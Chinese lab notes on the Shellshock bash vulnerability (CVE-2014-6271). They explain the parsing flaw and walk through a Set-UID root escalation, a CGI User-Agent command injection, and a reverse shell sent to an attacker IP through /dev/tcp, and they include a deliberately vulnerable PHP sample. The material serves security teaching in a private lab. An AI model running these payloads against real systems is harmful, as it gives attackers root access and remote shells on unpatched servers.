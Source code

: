 # 第三章 Shellshock 攻击

shellshock 漏洞：CVE-2014-6271
利用了 bash 将环境变量转换为函数定义时犯的一个错误

shellshock 漏洞要求的两个条件

1. Bash 调用
2. 传入用户数据作为环境变量

## Shellshock 漏洞

bash version 4.1.0 -> bash_shellshock

获得含有 ShellShock 漏洞的 bash 4.1.0 版本：

`$wget http://labfile.oss.aliyuncs.com/bash-4.1.tar.gz`

```sh
yuan@ubuntu:~/Cap3-shellshock$ foo='() { echo "hello"; }; echo "extra";'
yuan@ubuntu:~/Cap3-shellshock$ echo $foo
() { echo "hello"; }; echo "extra";
yuan@ubuntu:~/Cap3-shellshock$ export foo
yuan@ubuntu:~/Cap3-shellshock$ bash_shellshock
extra
yuan@ubuntu:~/Cap3-shellshock$ echo $foo

yuan@ubuntu:~/Cap3-shellshock$ declare -f foo
foo ()
{
    echo "hello"
}
```

bash 源代码中的错误 variables.c

`void initialize_shell_variables(env, privmode)`

bash 检查环境变量是否以`() {`开头，一旦发现这样的字符串，Bash 将用'='替换空格使该环境变量变成一个函数定义，
然后，bash 调用`parse_and_execute()`函数解析该函数定义。然而，`parse_and_execute()`的功能太强大，
他不仅仅解析函数定义，还解析和运行其他 shell 指令。如果该字符串包含用分号隔开的多个指令，
`parse_and_execute()`会解析和运行每一条

## 利用 shellshock 攻击 Set-UID 程序

_有漏洞的程序_:vul.c

```C
#include <unistd.h>
#include <stdio.h>
#include <stdlib.h>

int main(int argc, char const *argv[])
{
	setuid(geteuid());
	system("/bin/ls -l");
	return 0;
}
```

    	只有真实用户ID和有效用户ID相同时，Bash才会从环境变量中获得函数定义

`$ sudo ln -sf /bin/bash_shellshock /bin/sh`

```sh
yuan@ubuntu:~/Cap3-shellshock$ gcc -o vul.out vul.c
yuan@ubuntu:~/Cap3-shellshock$ sudo chown root vul.out
yuan@ubuntu:~/Cap3-shellshock$ sudo chmod 4755 vul.out
yuan@ubuntu:~/Cap3-shellshock$ export foo='() { echo hello; }; /bin/sh'
yuan@ubuntu:~/Cap3-shellshock$ ./vul.out
sh-4.1# id
uid=0(root) gid=1000(yuan) 组=1000(yuan),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),116(lpadmin),126(sambashare)
```

## 利用 shellshock 攻击 CGI 程序

CGI (coomon gateway interface, 通用网关接口) 是被 Web 服务器生成动态网页的可执行程序， 许多 cgi 程序是 shell 脚本

### 1 环境准备

启动 apache2 服务， 将 test.cgi 放到/usr/lib/cgi-bin/文件夹内.
将 test.cgi 改成 755 可执行权限。

test.cgi

```bash
#!/bin/bash_shellshock

echo "Content-type: text/plain"
echo
echo
echo "Hello"
```

用 kali linux 访问

```sh
kali@kali:~Desktop$ curl http://192.168.43.240/cgi-bin/test.cgi

Hello
kali@kali:~Desktop$
```

### web 服务器调用 CGI 程序

`curl -v`会打印出 HTTP 请求和服务器响应

通过远程访问 test2.cgi 可以知道，Apache 服务器从 HTTP 请求头中获得 User-Agent 信息，并将他赋值给一个*HTTP_USER_AGENT*的环境变量
当 Apache 服务创建一个子进程来执行 CGI 程序时，会传递该变量以及一些其他的环境变量给 CGI 程序

```sh
yuan@ubuntu:~$ curl -v http://192.168.43.240/cgi-bin/test.cgi
*   Trying 192.168.43.240...
* TCP_NODELAY set
* Connected to 192.168.43.240 (192.168.43.240) port 80 (#0)
> GET /cgi-bin/test.cgi HTTP/1.1
> Host: 192.168.43.240
> User-Agent: curl/7.58.0	      	    <****注意这里
> Accept: */*
>
< HTTP/1.1 200 OK
< Date: Sat, 19 Dec 2020 07:29:39 GMT
< Server: Apache/2.4.29 (Ubuntu)
< Vary: Accept-Encoding
< Transfer-Encoding: chunked
< Content-Type: text/plain
<
** Enviroment Variables **
HTTP_HOST=192.168.43.240
HTTP_USER_AGENT=curl/7.58.0            <****注意这里
HTTP_ACCEPT=*/*
PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/snap/bin

...

```

利用*User-Agent*实现攻击

```sh
kali@kali:$ curl -A "() { ;}; echo Content-Type: text/plain; /bin/ls -l" http://192.168.43.240/cgi-bin/test.cgi
```

> /bin/ls -l 可换成任意希望执行的指令

### 创建反向 shell

```sh
Attacker:$ nc -l -p 9090 -v
Attacker:$ curl -A "() { ;}; echo Content-Type: text/plain; echo;
echo; /bin/bash -i > /dev/tcp/192.168.43.230/9090 0<&1 2>&1" http://192.168.43.240/cgi-bin/test.cgi

```

创建反向 shell 指令：

```sh
Server:$ /bin/bash -i > /dev/tcp/192.168.43.230/9090 0<&1 2>&1
```

    -i shell的可交互模式
    >/dev/tcp/_ip_/_port_ shell输出重定向至TCP连接，stdout的文件描述符是1
    0<&1 0:stdin 将标准输出设备也用作输入 TCP是一个双向连接
    2>&1 2:stderr

## 针对 PHP 的远程攻击

触发 shellshock 漏洞需要满足的条件：

1. Bash 调用
   PHP 中的 system()函数，可以用它来执行外部命令
2. 传入用户数据作为环境变量
   在 Apache 服务器中，PHP 可以通过三种方式运行

   - Apache 组件
   - CGI (以 CGI 运行 php 可以满足)
   - FastCGI (不能满足条件， 但是在调用 system()函数之前，PHP 程序根据用户输入设置了环境变量，那么还是存在 shellshock 漏洞的)

```php
<?php
    function getParam()
    {
        $arg = NULL;
        if ((isset($_GET["arg"])) && !empty($_GET["arg"]))
        {
            $arg = $_GET["arg"];
        }
        return $arg;
    }
    $arg = getParam(); // 从用户输入的参数中获得一个参数
    putenv("ARG=$arg"); // 把这个参数放在一个叫ARG的环境变量中
    system("string /proc/$$/environ | grep ARG"); // 调用system()函数
?>
```
